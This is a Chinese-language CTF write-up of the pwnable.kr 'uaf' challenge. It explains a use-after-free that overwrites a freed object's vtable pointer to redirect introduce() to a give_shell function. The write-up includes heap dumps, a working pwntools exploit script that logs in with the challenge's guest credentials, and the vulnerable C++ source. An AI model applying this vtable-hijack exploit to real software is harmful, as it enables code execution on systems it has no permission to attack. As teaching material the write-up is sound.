##  pwnable-uaf

#### a.Aim～

只有一个NX，三个功能：use、after、free。
初步想法，覆盖introduce函数为give_shell。

第二个选项，也就是after函数有分配内存空间的操作，所以可以首先free，然后after占坑，写入奇怪的东西，用give_shell覆盖掉之前的introduce，然后执行use。

#### b.Loading～～

give_shell函数的地址位于:0x40117a，

```
0x614c10 FASTBIN {
  prev_size = 0x0,
  size = 0x31,
  fd = 0x4,
  bk = 0x4,
  fd_nextsize = 0x0,
  bk_nextsize = 0x6b63614a
}
0x614c40 FASTBIN {
  prev_size = 0x0,
  size = 0x21,
  fd = 0x401570 <vtable for Man+16>,
  bk = 0x19,
  fd_nextsize = 0x614c38,
  bk_nextsize = 0x31
}
0x614c60 FASTBIN {
  prev_size = 0x614c38,
  size = 0x31,
  fd = 0x4,
  bk = 0x4,
  fd_nextsize = 0x0,
  bk_nextsize = 0x6c6c694a
}
0x614c90 FASTBIN {
  prev_size = 0x0,
  size = 0x21,
  fd = 0x401550 <vtable for Woman+16>,
  bk = 0x15,
  fd_nextsize = 0x614c88,
  bk_nextsize = 0x411
}
```

![](img/6D311B4B-72BA-4A8E-9F9D-27CC2EF5C995.png)

Human中定义了私有的give_shell和公有的introduce，Man和Woman继承了Man，同时自己定义了introduce，所以他们的vtable中的give_shell函数地址和Human一样，但各自的introduce却不同。在看一下分配的空间：

![](img/D870C49C-5AD8-435E-9E13-E1F78394D1BA.png)

看到rax中保存的是Woman的vtable地址，+8后指向了introduce，
![](img/BDF8D040-4D03-476A-A68D-0FDF2716CC87.png)

经过free之后的内存分配：

![](img/B9455EF5-FFE2-449C-8F8D-BA4984B13DAD.png)

free完之后，进行after的操作，申请24的字节的空间，写入“aaaabbbb”，结果如下：

![](img/05A25747-A7DB-45E8-9D2D-9C6B2CEA5EC5.png)

看～哇哈哈～～还记得之前这个位置保存的什么嘛？？什么，不记得了，按住ALT+F4试试看看自己想起了什么？

一切看起来都和和谐，案件的真相在一步步浮出水面。But，everything has a but。

要记得introduce是rax+8之后的结果，所以要传入：0x401550-8=0x401548

#### c.Fire～～～

```python
from pwn import *
s = ssh(host='pwnable.kr', port=2222,
        user='uaf',
        password='guest')
context.log_level = 'debug'
a = s.process(["./uaf", "24", "/dev/stdin"])
a.recv(1024)
a.sendline("3")
a.recv(1024)
a.sendline("2")
a.send("\x48\x15\x40\x00\x00\x00\x00\x00")
a.recvuntil('free\n')
a.sendline("2")
a.send("\x48\x15\x40\x00\x00\x00\x00\x00")
a.recvuntil('free\n')
a.sendline("1")
a.interactive()
```

文件源代码如下：

```c
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

#### d.Clean

> 1.vptr每个对象都会有一个，而vptable是每个类有一个，vptr指向vtable  
> 一个类中就算有多个虚函数，也只有一个vptr  
> 做多重继承的时候，继承了多个父类，就会有多个vptr  





